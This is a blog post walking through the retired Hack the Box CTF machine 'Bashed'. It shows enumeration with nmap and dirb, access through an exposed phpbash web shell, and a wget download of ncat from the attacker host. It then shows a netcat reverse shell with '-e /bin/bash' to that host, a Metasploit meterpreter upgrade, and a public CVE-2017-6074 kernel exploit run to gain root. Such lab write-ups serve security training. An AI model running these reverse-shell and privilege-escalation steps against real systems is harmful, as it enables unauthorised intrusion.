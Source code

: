 ```yaml
---
title: Bashed, Hack the Box CTF Walkthrough
lead: Exploiting the Linux Kernel 4.4.0 (Ubuntu) - With DCCP Double-Free Privilege Escalation
tag: CTF
image: /assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/bashed.png
layout: post
style: blog2
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: "Bashed is an easy level CTF challenge from HTB, solved with an initial user compromise through a developer misconfiguration and privilege escalation with the Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation Exploit"
card: card-2
navheader: posts
---
```


# Overview
<a href="https://app.hackthebox.eu/machines/118" class="highlighted">Bashed</a> is a boot to root CTF from the Hack the Box archives. This was one of my favorite retired HTB challenges so far. The challenge involves initial compromise using a developer's misconfigured server and requires significant more work to escalate privileges to root. This challenge forced me to think outside the box for managing shells and was overall a good CTF.  



## Enumeration  

First, I conducted a basic nmap scan to enumerate open ports and services running on the target machine. The scan revealed an apache webserver was running on port 80.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nmap -sV --top-ports 200 10.10.10.68           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 09:06 EST
Nmap scan report for 10.10.10.68
Host is up (0.035s latency).
Not shown: 199 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
```  

## Web Application Testing   

Nexct, I launched BurpSuite and a firefox browser to being inspecting the target's web application. In the background, I started `dirb` a directory brute forcing tool. The resulting dirb scan revealed a directory called `dev`.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ dirb http://10.10.10.68         

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  5 09:10:15 2021
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                                                          
==> DIRECTORY: http://10.10.10.68/dev/                                                                                                          
==> DIRECTORY: http://10.10.10.68/fonts/                                                                                                        
==> DIRECTORY: http://10.10.10.68/images/                                                                                                       
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                                            
==> DIRECTORY: http://10.10.10.68/js/                                                                                                           
==> DIRECTORY: http://10.10.10.68/php/                                                                                                          
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                                                                                          
==> DIRECTORY: http://10.10.10.68/uploads/    
```  

## Exploit Developer Tools  

After reading the index page of the website, I understood the server was also being used to develop the tool [php bash](https://github.com/Arrexel/phpbash). Browsing the /dev path shows that indeed, a working version of phpbash is running on the target server. The program allows a user to interact with a bash like terminal through the browser itself. I used this terminal to find the user flag, which was located at `/home/arrexel`.  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/user-flag.png">
    </div>
</div>
<br/>  


## Privilege Escalation  

To start the privilege escalation process, I wanted to upgrade my shell from the phpBash shell to a meterpreter one. Unfortunately, when trying to send a reverse shell to my attacker machine with `netcat`, an error message occured stating that the -e option was not available. This was because the installed version of netcat was the BSD flavor (netcat-openBSD), only the traditional netcat (netcat-traditional) supports the -e option which is required to send a reverse shell. To get around this, I found a <a class="highlighted" href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat">linux binary version</a>of the traditional netcat. After downloading the binary, I put in the `/var/www/html` directory to serve with the apache webserver, then used `wget` to download the file to the target machine through the dev phpBash terminal. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.13/ncat-d
```  

Next, I started a listener on my attack machine with the multi/handler on metasploit to catch the reverse shell.  

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
```  
Once the handler was started, I used the the phpBash sell to issue a reverse shell through the uploaded ncat binary. 

```bash
www-data@bashed:./ncat-d 10.10.14.13 4444 -e /bin/bash
```  


```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.68:48554) at 2021-03-05 18:34:33 -0500
```  

### Upgrading to Meterpreter Shell

Once I recieved the reverse shell, I background it with the cntl-z option. To upgrade this basic shell to a meterpreter one, I used the `multi/manage/shell_to_meterpreter` module. After configuring the necessary options, I executed the module and started the meterpreter session.  

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.13:4433 
[*] Sending stage (980808 bytes) to 10.10.10.68
[*] Meterpreter session 2 opened (10.10.14.13:4433 -> 10.10.10.68:42086) at 2021-03-05 18:38:50 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```  

## Privilege Escalation via CVE-2017-6074

The last stage to escalate privileges was to find a public exploit that would work against the linux kernel. Some online research revealed that the Ubuntu 16.04 (Linux 4.4.0-62-generic) kernel being used by the target could be vulnerable to. CVE-2017-6074. I downloaded a proof of concept from <a class="highlighted" href="https://www.exploit-db.com/exploits/41458">exploi-db</a>. Using `GCC`, I compiled the exploit, then uploaded it to the target using the `upload` meterpreter command back in the metepreter session.  


```bash
meterpreter > upload /home/kali/Documents/htb/bashed/CVE-2017-6074
[*] uploading  : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] Uploaded -1.00 B of 23.19 KiB (-0.0%): /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] uploaded   : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
meterpreter > chmod 777 CVE-2017-6074 
meterpreter > shell
Process 819 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:~/html/uploads$ 


www-data@bashed:~/html/uploads$ whoami
whoami
www-data
www-data@bashed:~/html/uploads$ ./CVE-2017-6074
./CVE-2017-6074
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x564e7dc912aa
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/var/www/html/uploads# whoami
whoami
root
root@bashed:/var/www/html/uploads# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


